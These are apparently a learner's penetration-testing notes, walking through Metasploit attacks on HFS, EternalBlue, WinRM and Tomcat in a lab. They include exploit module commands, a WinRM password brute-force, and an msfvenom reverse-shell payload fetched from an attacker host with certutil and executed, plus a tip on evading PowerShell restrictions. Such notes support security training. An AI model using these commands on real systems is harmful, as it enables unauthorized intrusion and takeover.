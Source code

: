 

### Exploiting A vulnerable HTTP File server 

Http File server
- Web server that is designed for file & document sharing 
	- you can only host files (not websites etc)
	- webserver can be used for files and doc but can also be utilized to host a website
- HTTP file servers run on port 80 and use HTTP protocol for underlying communication 
- Rejetto HFS is a popular free and open source HTTP file server that can be setup on Windows and Linux 
- Rejetto HFD V2.3 is vulnerable to remote command and execution attacks 
- MSF has an exploits module that we can utilize to gain access to the target system hosting the HFS 
  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds

1. start up `postgreql` database 
2. start up `msfconsole` 
3. create workspace: `workspace -a HFS`
4. set up global variable: `setg rhosts target `
5. start with nmap scan: `db_nmap -sS -sV -O target ` the results will be stored in workspace 
6. directly search in msfconsole for module: `search type:exploit name:rejetto `
7. `use  exploit/windows/http/rejetto_hfs_exec ` -> `run` 
8. We can set payload to: `set payload windows/x64/meterpreter/reverse_tcp `
9. set `LPORT` and `LHOST` -> `run` 


### Exploiting the Windows MS17-010 SMB Vulnerability 
- the name of the exploit is EternalBlue 
- EternalBlue is a collection of Windows vulnerabilities and exploits that allow attackers to remotely execute arbitrary code and gain access to a Windows system and consequently the network that the target system is part of 
- Takes advantage of vulnerability in Windows SMBv1 
- used in wannacry attack 
- Eternal Blue has MSF auxiliary module that can be used to check if a target system is vulnerable 
- Important: The Eternal Blue exploit will give us a *priviliged* meterpreter session on target system instead of a standard non-priviliged meterpreter session. This means complete control over the target system 

1) `msfconsole` 
2) create `workspace` 
3) setg rhosts
4) `db_nmap -sS -sV -O target` 
5) `services` (show the identified services in nmap)
6) find module that can see if system is vulnerable: `search type: auxiliary name: EternalBlue`
7) `use aux/scanner/smb/smb_ms17_010 `
8) if the results indicate that the system is vulnerable, look for the exploit: `search type:exploit name:EternalBlue ` --> `exploit/windows/smb/ms17_010_eternalblue`
9) check priviliged: `getuid` 
   (NT) AUTORITY SYTEM = highest priviliged possible (elevated meterpreter session no need for priviliged escalation)


### Exploiting WinRM (Windows Remote Management Protocol)

- WinRM is used for: 
	- Remotely access and interact with Windows hosts on a local network 
	- Remotely access and execute commands on Windows systems on the internet 
	- Manage and configure Windows system remotely 
- The default HTTPS WinRM port is 5986 - Port 5985 is used for WinRM over HTTP.
- Exploiting WinRM
	- WinRM implements access control and security for communication between systems through various forms of authentication 
	- Utilize the MSF to identify WinRM users and their passwords as well as execute commands on the target system 
	- Utilize a MSF WinRM exploit module to obtain a meterpreter session on the target system 


1) `msfconsole` 
2) create `workspace` 
3) setg rhosts
4) `db_nmap -sS -sV -p- -O target` 
5) `services`  (port 5985 of 5986 is winrm)
6) check authentication methods supported on target: `search type: auxiliary name: winrm` 
7) `use aux/scanner/winrm/winrm_auth_methods` --> `run` 
   ![[Pasted image 20230824215722.png]]
	Negotiate protocol supported, basic protocol supported means that we can do a bruteforce on the username and passwords. 
8) prepare the bruteforce: `search winrm_login` -> `use auxiliary/scanner/winrm/winrm_login `
	1) set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
	2) set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 
9) when you have a hit on bruteforce, we will try to use the credentials `search winrm_cmd ` 
	1) `use auxiliary/scanner/winrm/winrm_cmd `
	2) `set USERNAME administrator `
	3) `set PASSWORD tinkerbell `
	4) specify command to run on target system to confirm that we have access: `set CMD whoami`
10) get meterpreter session through module: winrm_script 
	1) use exploit/windows/winrm/winrm_script_exec 
	2) set passwords,targetip,targeturi,username,lhost,lport 


![[Pasted image 20230824220529.png]]
When you have an issue with runtime -> set the force VBS (visual basic option) instead of the powershell command stager: `set FORCE_VBS true `. This can be useful if PowerShell is restricted or if VBS is more likely to bypass security controls on the target system. VBS is a scripting language developed by Microsoft. It's often used for administrative tasks and automation on Windows systems. In the context of penetration testing, it can be a viable alternative to PowerShell for executing commands or scripts on a target Windows machine. **PowerShell Command Stager**: PowerShell is a powerful scripting language on Windows systems. A "command stager" in Metasploit is a technique for delivering and executing payloads. However, in some scenarios, PowerShell may be restricted or blocked by security measures on the target system. 




###  Exploiting Vulnerable Apache Tomcat Web server 

- Apache Tomcat is open source Java servlet web server 
- used to build dynamic websites and web applications based on the Java software platform 
- Apache Tomcat uses HTTP protocol 
- Apache uses TCP port 8080 by default 

Difference between Apache and Apache Tomcat? 
- Standard Apache HTTP web server is used to host static and dynamic websites or web applications, typically developed in PHP 
- the Apache Tomcat web server is **primarily** used to host dynamic websites or web applications developed in Java. 
- Apache Tomcat V8.5.19 is vulnerable to remote code execution vulnerability that could potentially allow an attacker to upload and execute a JSP payload in order to gain remote access to the target server. 


1) `msfconsole` 
2) create `workspace` 
3) setg rhosts
4) `db_nmap -sS -sV -p- -O target` 
5) search for exploit for tomcat: `search type:exploit tomcat_jsp ` 
6) `use exploit/multi/http/tomcat_jsp_upload_bypass `
7) in options you do not see payload but when you type info you see more info about the payload. for this exploit you can only use a jsp (java) payload 
	`set payload java/jsp_shell_bind_tcp`
8) specify shell command - target is windows so we can use cmd: `set SHELL cmd`
	now we have access to target but not in meterpreter session but this is a command shell session. Lets out that in the background `control + z `
9) set up meterpreter session: 
	1) open new tab 
	2) generate payload with msfvenom (windows meterpreter): `msfvenom -p windows/meterpreter/reverse_tcp LHOSTS=kali LPORT=1234 -f exe > meterpreter.exe `
	3) set up simple webserver within current directory to host the files: `sudo python -m SimpleHTTPServer 80 `
	4) go back to previous windows (tomcat) with simple shell session and get the session back: `sessions` -> `sessions 1 ` 
		1) download the files on target system, hosted on webserver: `certutil -urlcache -f http://kali-ip/meterpreter.exe meterpreter.exe 
		2) check if file is downloaded on target: `dir` 
		3)  terminate the webserver after successfull download: control + c 
10) set up handler:
		1) create resource script: `vim handler.rc `
			1) `use multi/handler
			2) `set PAYLOAD windows/meterpreter/reverse_tcp `
			3) `set LHOST kali  ip` 
			4) `set LPORT 1234`
			5) `run` 
		2) `msfconsole -r handler.rc `
11) execute meterpreter payload on target system, in tomcat window run: `.\meterpreter.exe `
now you have an meterpreter session 




